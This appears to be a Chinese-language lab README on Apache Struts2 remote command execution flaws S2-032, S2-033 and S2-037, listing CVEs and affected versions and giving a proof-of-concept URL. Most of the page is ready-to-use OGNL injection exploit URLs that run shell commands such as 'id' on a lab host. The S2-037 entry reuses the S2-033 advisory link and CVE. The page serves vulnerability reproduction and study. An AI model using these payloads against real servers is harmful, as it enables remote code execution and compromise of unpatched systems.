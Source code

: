 

<h3 style="color: red">漏洞信息</h3>

- [S2-032 官方公告](http://struts.apache.org/docs/s2-032.html)
	- CVE编号: CVE-2016-3081
- [S2-033 官方公告](http://struts.apache.org/docs/s2-033.html)
	- CVE编号: CVE-2016-3087
- [S2-037 官方公告](http://struts.apache.org/docs/s2-033.html)
	- CVE编号: CVE-2016-3087
- 影响范围: Struts 2.3.20 -2.3.28 (除 2.3.20.3 and 2.3.24.3)
- 漏洞危害: 命令执行



<h3 style="color: red">Struts2 S2-032</h3>
#### POC
```
http://192.168.48.145:2032/memocreate.action?method:%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,%23context[%23parameters.obj[0]].getWriter().print(%23parameters.content[0]%2b602%2b53718),1?%23xx:%23request.toString&obj=com.opensymphony.xwork2.dispatcher.HttpServletResponse&content=10086
```

若页面显示：`1008660253718` 则代表可代码执行

#### Exp:
```
http://192.168.48.145:2032/memoindex.action?method:%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,%23res%3d%40org.apache.struts2.ServletActionContext%40getResponse(),%23res.setCharacterEncoding(%23parameters.encoding%5B0%5D),%23w%3d%23res.getWriter(),%23s%3dnew+java.util.Scanner(@java.lang.Runtime@getRuntime().exec(%23parameters.cmd%5B0%5D).getInputStream()).useDelimiter(%23parameters.pp%5B0%5D),%23str%3d%23s.hasNext()%3f%23s.next()%3a%23parameters.ppp%5B0%5D,%23w.print(%23str),%23w.close(),1?%23xx:%23request.toString&pp=%5C%5CA&ppp=%20&encoding=UTF-8&cmd=id
```

- [Struts2 S2 – 032远程代码执行分析](http://www.freebuf.com/vuls/102836.html)
- [Apache Struts2 s2-032技术分析及漏洞检测脚本](http://blog.topsec.com.cn/ad_lab/apache-structs2-s2-032%E6%8A%80%E6%9C%AF%E5%88%86%E6%9E%90%E5%8F%8A%E6%BC%8F%E6%B4%9E%E6%A3%80%E6%B5%8B%E8%84%9A%E6%9C%AC/)


<h3 style="color: red">Struts2 S2-033</h3>

Exp:
```
http://192.168.48.145:2033/orders/4/%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,%23xx%3d123,%23rs%3d@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec(%23parameters.command[0]).getInputStream()),%23wr%3d%23context[%23parameters.obj[0]].getWriter(),%23wr.print(%23rs),%23wr.close(),%23xx.toString.json?&obj=com.opensymphony.xwork2.dispatcher.HttpServletResponse&content=2908&command=id
```

<h3 style="color: red">Struts2 S2-037</h3>

Exp:
```
http://192.168.48.145:2037/orders/4/(%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)%3f(%23wr%3d%23context[%23parameters.obj[0]].getWriter(),%23rs%3d@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec(%23parameters.command[0]).getInputStream()),%23wr.println(%23rs),%23wr.flush(),%23wr.close()):xx.toString.json?&obj=com.opensymphony.xwork2.dispatcher.HttpServletResponse&content=16456&command=id
```

[PKAV 发现 Struts2 最新远程命令执行漏洞(S2-037)](http://drops.ichenfei.com/papers-16875.html)
- [apache struts2 最新s2-037漏洞分析](http://blog.topsec.com.cn/ad_lab/apache-struts2-%E6%9C%80%E6%96%B0s2-037%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/)
- [Struts2 S2-037(CVE-2016-4438)漏洞分析](http://blog.nsfocus.net/tech/%E7%83%AD%E7%82%B9%E8%B7%9F%E8%B8%AA/2016/06/16/Struts2-S2-037(CVE-2016-4438)%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90.html)
